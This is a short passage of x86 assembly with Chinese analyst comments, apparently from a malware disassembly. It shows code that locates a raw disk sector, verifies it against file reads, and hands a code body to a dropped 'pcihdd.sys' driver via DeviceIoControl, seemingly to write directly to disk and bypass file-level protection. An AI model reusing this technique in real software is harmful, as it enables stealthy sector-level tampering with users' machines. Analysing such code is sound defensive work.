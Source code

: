 push  0    ; dwMoveMethod
lea  eax, HighOffset
push  eax    ; lpDistanceToMoveHigh
push  lDistanceToMove ; lDistanceToMove
push  hFile          ; hFile
call  SetFilePointer

push  0    ; lpOverlapped
lea  eax, DistanceToMoveHigh
push  eax    ; lpNumberOfBytesRead
push  200h    ; nNumberOfBytesToRead
lea  eax, PhysicalBuff
push  eax    ; lpBuffer
push  hFile    ; hFile
call  ReadFile        ;在找到的硬盘扇区读

lea  edi, PhysicalBuff
lea  esi, Buffer
mov  ecx, 200h
repe cmpsb              ;通过对比ReadFile读取的文件数据和自己定位后直接读取所得到的文件数据，确定定位是否正确

or  ecx, ecx
jnz  DIFF

push  0    ; dwMoveMethod
lea  eax, HighOffset
push  eax    ; lpDistanceToMoveHigh
push  lDistanceToMove ; lDistanceToMove
push  hFile  ; hFile
call  SetFilePointer  ;重新定位到上面找到的硬盘扇区处

mov  eax, nNumberOfBytesToWrite
shl  eax, 9                      ;这个值是作者估算的
mov  nNumberOfBytesToWrite, eax

push  nNumberOfBytesToWrite ; dwBytes
push  40h          ; uFlags
call  GlobalAlloc
or  eax, eax
jz  ALLOCMEMORYFAILED
mov  lpBuffer,eax

mov  ecx, offset MessageBoxA
sub  ecx, offset Src  ; "%SystemRoot%\system32\drivers\pcihdd.sys"

       ;把整个代码体作为参数传递给pcihdd.sys,控制码0xF0003C04，
push  0    ; lpOverlapped
lea  eax, DistanceToMoveHigh
push  eax    ; lpBytesReturned
push  nNumberOfBytesToWrite ; nOutBufferSize
push  lpBuffer  ; lpOutBuffer
push  ecx    ; nInBufferSize
push  offset Src  ; "%SystemRoot%\system32\drivers\pcihdd.sys"
push  0F0003C04h  ; dwIoControlCode
push  hDevice    ; hDevice
call  DeviceIoControl
